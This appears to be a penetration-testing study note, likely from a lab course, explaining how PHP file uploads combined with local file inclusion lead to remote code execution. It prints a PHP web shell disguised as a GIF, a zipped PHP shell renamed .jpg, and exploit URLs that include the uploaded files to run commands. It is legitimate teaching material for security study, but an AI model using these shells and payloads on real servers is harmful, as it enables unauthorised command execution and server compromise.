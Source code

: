 File uploads can indirectly help escalate LFI to Remote Code Execution (RCE). Even if the upload functionality is secure, if the file gets stored on the backend and can later be **included** via a vulnerable `include()` or `require()` call, code inside the file can get executed.
### Key Functions Supporting RCE

| Function                       | Read | Execute | Remote URL |
| ------------------------------ | ---- | ------- | ---------- |
| `include()` / `include_once()` | ✅    | ✅       | ✅          |
| `require()` / `require_once()` | ✅    | ✅       | ❌          |

> Even image files like `.jpg` or `.gif` can execute code if they’re included, not rendered.
## Malicious Image Payload

Craft a fake image with embedded PHP shell:

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
###### - `GIF8` = image magic bytes (ASCII) to bypass basic content-type checks.
###### - Shell still functions if included via LFI.
### Upload & Locate the File
###### Upload the fake image via profile upload:

```
http://<SERVER_IP>:<PORT>/settings.php
```
###### Inspect HTML source to find path:

```html
<img src="/profile_images/shell.gif" class="profile-image">
```
###### Then exploit with:

```
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

> Adjust path using `../` if the vulnerable function prepends directories.

## Zip Upload (Using `zip://` Wrapper)
###### 1.  Create and zip a PHP shell:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
zip shell.jpg shell.php
```
###### 2. Upload the ZIP archive.
###### 3. Exploit with `zip://` and file reference:

```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

